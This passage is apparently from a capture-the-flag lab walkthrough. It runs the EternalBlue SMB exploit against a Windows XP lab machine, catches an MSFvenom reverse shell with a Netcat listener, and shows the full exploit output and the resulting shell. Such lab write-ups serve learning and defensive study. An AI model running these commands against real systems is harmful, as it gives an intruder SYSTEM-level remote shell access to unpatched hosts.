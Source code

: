WIth my Netcat listener set listening on port 4444, just like I stated on my MSFvenom reverse shell payload, I am going to go ahead and execute the exploit.

```
python send_and_execute.py 10.10.10.4 eternalblue.exe

Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x81b2dda8
SESSION: 0xe17c1190
FLINK: 0x5bd48
InData: 0x5ae28
MID: 0xa
TRANS1: 0x58b50
TRANS2: 0x5ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1fb0030
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1fb00d0
overwriting token UserAndGroups
Sending file WIM5S5.exe...
Opening SVCManager on 10.10.10.4.....
Creating service HamL.....
Starting service HamL.....
The NETBIOS connection with the remote host timed out.
Removing service HamL.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Looking back at our reverse shell we successfully got a shell!

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

The `whoami` command is not running on the box, but we can get this to work an alternative way.

```
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```
